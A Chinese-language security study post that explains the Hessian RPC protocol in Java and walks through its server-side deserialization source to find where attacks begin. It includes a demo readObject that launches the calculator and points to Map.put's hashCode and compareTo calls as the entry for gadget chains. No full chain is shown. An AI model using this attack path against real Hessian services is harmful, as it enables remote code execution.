# 0x01 What Is Hessian

Hessian是一个二进制的web service协议，用于实现RPC

RPC：Remote Procedure Call 远程过程调用。

对于Java来说和RMI差不多（RMI就是RPC的一种具体实现），就是远程方法调用。

RPC框架中的三个角色：

* Server
* Client
* Registry

RPC的主要功能目标是让构建**分布式应用**更加容易

```xml
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>hessian</artifactId>
    <version>4.0.63</version>
</dependency>
```

## Class Architecture


* `AbstractSerializerFactory`：抽象序列化器工厂，是管理和维护对应序列化/反序列化机制的工厂。
  * `SerializerFactory`：标准实现
  * `ExtSerializerFactory`：可以设置自定义的序列化机制
  * `BeanSerializerFactory`：对`Serializer`默认`Object`的序列化机制进行强制指定为`BeanSerializer`

序列化器工厂肯定是作为IO流对象的成员去使用


`Hessian`的有几个默认实现的序列化器，当然也有对应的反序列化器


## Hessian ⚔ Native

`Hessian`反序列化和原生反序列化有啥区别呢？

```java
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Person implements Serializable {
    public String name = "taco";
    public int age = 18;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    private void readObject(ObjectInputStream ois) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

原生反序列化：

```java
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(new Person());
oos.close();

ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
ois.readObject();
```

Hessian：

```java
ByteArrayOutputStream baos = new ByteArrayOutputStream();
Hessian2Output oos = new Hessian2Output(baos);
oos.writeObject(new Person());
oos.close();

Hessian2Input ois = new Hessian2Input(new ByteArrayInputStream(baos.toByteArray()));
ois.readObject();
```

原生反序列化能弹出计算器，`Hessian`就不能

说明`Hessian`反序列化不会自动调用反序列化类的`readObject()`方法

因此JDK原生的`gadget`在`Hessian`反序列化中不能直接使用

实际上，`Hessian`序列化的类甚至可以不需要实现`Serializable`接口

🎃慢慢看下去咯

> 下面的分析基于Hessian4.x，默认的序列化器为UnsafeSerializer（使用unsafe在内存层面直接恢复对象）
>
> 而Hessian3.x，默认的序列化器为JavaSerializer（调用构造器创建对象和使用反射恢复字段，优先使用无参构造器）

# 0x02 Hessian At Your Service

## Servlet Based

通过把提供服务的类注册成Servlet进行访问

### Server

```java
public interface Greeting {
    String sayHi(HashMap o);
}
```

```java
package org.taco.hessian;

import com.caucho.hessian.server.HessianServlet;

import javax.servlet.annotation.WebServlet;
import java.util.HashMap;

@WebServlet("/hessian")
public class Hello extends HessianServlet implements Greeting {
    public String sayHi(HashMap o) {
        return "Hi" + o.toString();
    }
}
```

服务类需要实现服务接口，且继承`com.caucho.hessian.server.HessianServlet`

### Client

```javascript
import com.caucho.hessian.client.HessianProxyFactory;

import java.net.MalformedURLException;
import java.util.HashMap;

public class Client {
    public static void main(String[] args) throws MalformedURLException {
        String url = "http://localhost:8080/hessian";

        HessianProxyFactory factory = new HessianProxyFactory();
        Greeting greet = (Greeting) factory.create(Greeting.class, url);

        HashMap o = new HashMap();
        o.put("taco", "black");

        System.out.println(greet.sayHi(o));  // Hi{taco=black}
    }
}
```

客户端通过`com.caucho.hessian.client.HessianProxyFactory`创建对应接口的代理对象。

## Spring Based

```java
package com.example.hessian_server.config;

import com.example.hessian_server.service.Greeting;
import com.example.hessian_server.service.Hello;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.remoting.caucho.HessianServiceExporter;

import javax.annotation.Resource;

@Configuration
public class HessianConfig {
    @Resource
    private Hello hello;

    @Bean(name = "/hessian")
    public HessianServiceExporter HiService() {
        HessianServiceExporter exporter = new HessianServiceExporter();
        exporter.setService(hello);
        exporter.setServiceInterface(Greeting.class);
        return exporter;
    }
}
```

```java
package com.example.hessian_server.service;

import org.springframework.stereotype.Service;

import java.util.HashMap;

@Service
public class Hello implements Greeting{
    @Override
    public String sayHi(HashMap o) {
        return "Hi " + o.toString();
    }
}
```

```java
package com.example.hessian_server.service;


import java.util.HashMap;

public interface Greeting {
    String sayHi(HashMap o);
}
```

Spring-Web 包提供了 `org.springframework.remoting.caucho.HessianServiceExporter` 用来暴露远程调用的接口和实现类。使用该类 export 的 Hessian Service 可以被任何 Hessian Client 访问

# 0x03 Dive Into Source

## Server

```java
package org.taco.hessian;

import com.caucho.hessian.server.HessianServlet;

import javax.servlet.annotation.WebServlet;
import java.util.HashMap;

@WebServlet(value = "/hessian", loadOnStartup = 1)
public class Hello extends HessianServlet implements Greeting {
    @Override
    public String sayHi(HashMap o) {
        return "Hi" + o.toString();
    }
}
```

`HessianServlet`是`HttpServlet`的子类，那就存在Servlet的生命周期三个阶段：初始化（init）、运行（service）、销毁（destroy）

### init

首先是初始化`HessianServlet`



* `_homeAPI`：被调用的接口类
* `_homeImpl`：接口实现类的实例
* `_serializerFactory`：序列化器工厂

`loadServlet` => `initServlet` => `HessianServlet#init`



上面的初始化参数是通过xml配置或注解传入给`HessianServlet`

我们这里没有配置初始化参数，将`this`（Hello对象）赋值给`_homeImpl`，`_homeAPI=_homeImpl.getClass()`

`_objectAPI`和`_objectImpl`均为null，`_homeSkeleton`直接赋值给`_objectSkeleton`



`HessianSkeleton`是`AbstractSkeleton`的子类，对Hessian提供的服务进行封装。

`AbstractSkeleton`实例化时将接口中的public方法和方法名保存在`_methodMap`，以及一些方法名的变体，如`方法名__参数个数`、`方法名_参数1类型_参数2类型...`。这里传入的是`this`，所以顺带把`Hello`从父类继承到的方法也放进去了。



### service

当请求到来时会触发`Servlet`的`service`方法



获取序列化器工厂，创建`SerializerFactory`实例





看一下这个`_isEnableUnsafeSerializer`开关是怎么打开的

```java
private boolean _isEnableUnsafeSerializer
    = (UnsafeSerializer.isEnabled()
        && UnsafeDeserializer.isEnabled());
```

`UnsafeSerializer`的静态代码块判断是否开启`Unsafe`序列化器



其实就是简单通过反射找到`sun.misc.Unsafe`的`theUnsafe`成员（`Unsafe`是单例模式，静态代码块对自身进行实例化，并放到`theUnsafe`属性。由于只实例化一次，对外提供`getUnsafe`方法来获取自身的实例，但不允许非系统类调用）

可以通过设置全局属性`com.caucho.hessian.unsafe=false`来关闭这个序列化器。一般`_isEnabled`应该是开启的。

回到`HessianServlet#invoke`，和RMI一样，服务端也是采用了`Skeleton`代理的设计理念。

最后调用的是`_homeSkeleton#invoke`





判断了使用哪种协议进行数据交互（hessian/hessian2/混用）

并将原本的`ServletRequest`输入流和`ServletResponse`输出流封装为`HessianInput`和`HessianOutput`

后面的`readObject`和`writeObject`就是基于这两个输入输出对象。

创建好输入输出流后，设置其序列化器工厂，继续`invoke`

这里看到多出了一个`_service`对象，正是我们的`Hello`对象，它是`HessianSkeleton`的属性（`init`构造Skeleton的时候传进来的`this`）

`_service`即提供方法的调用对象



```java
public void invoke(Object service,
                   AbstractHessianInput in,
                   AbstractHessianOutput out)
    throws Exception
{
    // ...
    String methodName = in.readMethod();
    int argLength = in.readMethodArgLength();

    Method method;

    method = getMethod(methodName + "__" + argLength);

    if (method == null)
        method = getMethod(methodName);
	// ...
    if (method == null) {
        out.writeFault("NoSuchMethodException",
                       escapeMessage("The service has no method named: " + in.getMethod()),
                       null);
        out.close();
        return;
    }

    Class<?> []args = method.getParameterTypes();

    if (argLength != args.length && argLength >= 0) {
        out.writeFault("NoSuchMethod",
                       escapeMessage("method " + method + " argument length mismatch, received length=" + argLength),
                       null);
        out.close();
        return;
    }

    Object []values = new Object[args.length];

    for (int i = 0; i < args.length; i++) {
        // XXX: needs Marshal object
        values[i] = in.readObject(args[i]);
    }

    Object result = null;

    try {
        result = method.invoke(service, values);
    } //...
}
```

读取方法名（`methodName`），查找调用方法（`getMethod`，从`_methodMap`获取），根据Method对象获取参数个数。

接着从输入流反序列化参数，传入的是参数类型（`HessianInput#readObject(Class<?> cl)`）

最后调用方法，并写到输出流中进行序列化。

总结：

* `HessianServlet`初始化时获取到服务接口和实例对象，将接口中的方法注册到`_methodMap`
* 作为一个`Servlet`，请求到来时触发`service`方法，准备远程方法调用`invoke`
* `HessianSkeleton`根据请求流读取方法名、方法参数，在`_methodMap`中查找方法
* 对方法参数进行反序列化，调用方法后将结果写到返回流进行序列化。

### deserialize

跟进上文的`HessianInput#readObject`，在这里对方法参数进行反序列化。



`reader = _serializerFactory.getDeserializer(cl);`获取反序列化器



试图从缓存中获取，`loadDeserializer`获取后放入缓存



根据调用方法的参数类型来决定使用哪个反序列化器，这里返回`MapDeserializer`

（`MapDeserializer`的构造函数把传入的参数类型赋值给了`_type`，`_type`就是远程调用方法的参数类型，并且获取了`_type`的无参构造器`_ctor`）

接着执行`MapDeserializer#readMap(HessianInput in);`

```java
// ....
map = (Map) _ctor.newInstance();
while (! in.isEnd()) {
    map.put(in.readObject(), in.readObject());  // in: HessianInput
}
```

对键值对分别反序列化，再放入`map`

👉注意看，**漏洞source点就在这了**

`map.put`对于`HashMap`会触发`key.hashCode()、key.equals(k)`，而对于`TreeMap`会触发`key.compareTo()`

经过之前反序列化的~~du da~~（学习），应该能很快反应出来（`CC6`、`ROME`都用到了`hashCode`）

那我们目标就明确了：

🚩**以Map为载体，构造恶意的方法调用参数，服务端会解析请求中的方法参数，触发`hashCode`、`compareTo`方法**

💦限制：远程方法接口的参数要有`Map`类型，后面看看能不能绕过

现在回答上面的问题，为什么`Hessian`反序列化不会执行类的`readObject`方法？那它是如何得到一个对象的？

我们看看当MapEntry的值为`Person`对象时`Hessian`是怎么处理的。

`HessianInput#readObject()`

Map的元素类型未知，只能从输入流中读取任意对象。当然输入流中有对象类型的标记位。



依旧获取到`M`，看来`Hessian`把普通类对象当成`Map`来处理了





`getDeserializer(type)`首先也是调用到`loadDeserializer`，根据类型获取反序列化器，这里匹配不到预置类型，只能获取默认的反序列化器

`SerializerFactory#getDefaultDeserializer`



默认反序列化器为`UnsafeDeserializer`，在其构造函数里，会对类成员分配成员的反序列化器，并放入`HashMap<String,FieldDeserializer2> _fieldMap`



和原生反序列化一样，会跳过`static`和`transient`修饰的字段

回到`UnsafeDeserializer#readMap`，先创建了一个实例对象，再对这个实例对象进行操作



这里的`instantiate`就是利用的老朋友`Unsafe`在内存层面直接开辟出一个对象的空间

```java
protected Object instantiate() throws Exception {
    return _unsafe.allocateInstance(_type);
}
```

接着从输入流里读取字段名，`_fieldMap`中获取对应的字段反序列化器，再对obj进行操作





`FieldDeserializer2FactoryUnsafe`内置了一堆基本类型的反序列化器，大都是直接从输入流读取的数据就是字段值

接着又是熟悉的操作`_unsafe.putObject(obj, _offset, value);`修改对象在内存中字段偏移量处的值

因此就没有触发我们自定义的`readObject`了。

## Client

```java
String url = "http://localhost:8080/hessian";

HessianProxyFactory factory = new HessianProxyFactory();
Greeting greet = (Greeting) factory.create(Greeting.class, url);

HashMap o = new HashMap();
o.put("taco", "black");

System.out.println(greet.sayHi(o)); 
```

`HessianProxyFactory#create`返回一个代理对象



所以无论调用啥方法都会走到`HessianProxy#invoke`方法，



获取了方法名和方法参数类型，将方法和方法名放入`_mangleMap`，下次调用会首先从`_mangleMap`获取方法名



发送请求获取连接对象，读取协议标志`code`，根据协议标志选择使用`Hessian/Hessian2`读取，最终断开连接。

